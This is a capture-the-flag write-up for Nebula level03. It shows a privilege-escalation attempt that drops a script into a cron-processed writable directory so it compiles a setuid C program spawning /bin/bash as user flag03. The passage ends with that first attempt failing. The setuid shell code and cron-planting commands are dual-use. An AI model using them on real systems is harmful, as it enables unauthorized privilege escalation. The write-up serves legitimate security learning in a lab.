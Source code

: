 Our goal, as always, is to get the output "You have successfully executed getflag on a target account" from executing the command `getflag` as user `flag03`. How exactly is `crontab` going to help us achieve that?

Recall that in the previous levels, we learnt about *setuid programs*. We made use of one such program to change the process' real UID to our desired user, then spawned a bash shell as said user. Let's take a moment to think how we can use that knowledge here.

Hint:
>Each user has their own crontab, and commands in any given crontab will be executed as the user who owns the crontab. [source](https://linux.die.net/man/5/crontab)

### Solution 1

- Solution 1: Unlike the previous levels, there is no setuid program here owned by `flag03`. So, let's create our own. 
```
level03@nebula:~$ cat attempt1.c
#include <unistd.h>
#include <stdio.h>
#include <stdlib.h>
#include <sys/types.h>

int main() {

	uid_t euid = geteuid();
	gid_t egid = getegid();
	
	setresuid(euid, euid, euid);
	setresgid(egid, egid, egid);
	
	system("/bin/bash");
}
```
We create a bash file in `/home/flag03/writable.d` to compile the C program and set its `setuid` bit.
```
level03@nebula:~$ cat attempt1.sh 
gcc -o /home/flag03/a.out /home/level03/attempt1.c; chmod +x /home/flag03/a.out; chmod +s /home/flag03/a.out
level03@nebula:~$ cp attempt1.sh /home/flag03/writable.d/
level03@nebula:~$ ls /home/flag03/writable.d/
attempt1.sh
level03@nebula:~$ 
```
`Cron` should compile `attempt1.c` into an executable setuid program that we can later call to spawn us a shell as user `flag03`.

```
--- after a few minutes ---

level03@nebula:~$ ls /home/flag03/writable.d/
level03@nebula:~$ ls /home/flag03/
writable.d  writable.sh
level03@nebula:~$ 
```
What the hell? Where is my `a.out`? Since `/home/flag03/writable.d/attempt1.sh` is deleted, that means `cron` ran that bash script. But `a.out` is nowhere to be found! ٩(╬ʘ益ʘ╬)۶
